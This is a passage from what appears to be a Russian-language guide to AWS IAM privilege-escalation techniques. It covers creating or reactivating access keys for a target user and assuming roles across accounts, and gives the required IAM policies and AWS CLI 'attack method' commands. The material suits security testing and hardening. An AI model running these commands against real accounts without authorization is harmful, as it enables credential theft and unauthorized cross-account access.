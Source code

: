 #### 3. **Service Account Compromise**

##### Требуемые права:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "iam:CreateAccessKey",
                "iam:ListAccessKeys",
                "iam:UpdateAccessKey"
            ],
            "Resource": "*"
        }
    ]
}
```

##### Метод атаки:
```bash
# Создание новых ключей доступа
aws iam create-access-key --user-name target-user

# Обновление существующих ключей
aws iam update-access-key \
    --user-name target-user \
    --access-key-id AKIAIOSFODNN7EXAMPLE \
    --status Active
```

#### 4. **Cross-Account Access Escalation**

##### Требуемые права:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "sts:AssumeRole",
                "organizations:ListAccounts",
                "organizations:DescribeOrganization"
            ],
            "Resource": "*"
        }
    ]
}
```

##### Метод атаки:
```bash
# Получение списка аккаунтов в организации
aws organizations list-accounts

# Попытка доступа к другим аккаунтам
aws sts assume-role \
    --role-arn arn:aws:iam::target-account:role/CrossAccountRole \
    --role-session-name cross-account-session
```

---